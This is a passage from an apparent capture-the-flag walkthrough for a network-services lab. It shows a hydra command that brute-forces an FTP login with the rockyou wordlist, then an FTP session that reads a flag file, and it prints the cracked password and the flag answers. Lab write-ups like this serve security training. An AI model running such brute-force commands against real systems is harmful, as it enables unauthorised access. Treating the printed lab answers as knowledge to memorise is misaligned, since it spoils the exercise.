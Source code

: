 -   <p>What is the password for the user "mike"?<br /></p>

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <MACHINE_IP> ftp
```

![Guide image](/images/posts/network-services-17.png)
**=> Answer: `password`**

-   <p>What is ftp.txt?<br /></p>

```bash
ftp <MACHINE_IP>
Username: mike
Password: password

more ftp.txt
```

![Guide image](/images/posts/network-services-18.png)
**=> Answer: `THM{y0u_g0t_th3_ftp_fl4g}`**

### 11. Expanding Your Knowledge

_No hints needed!_
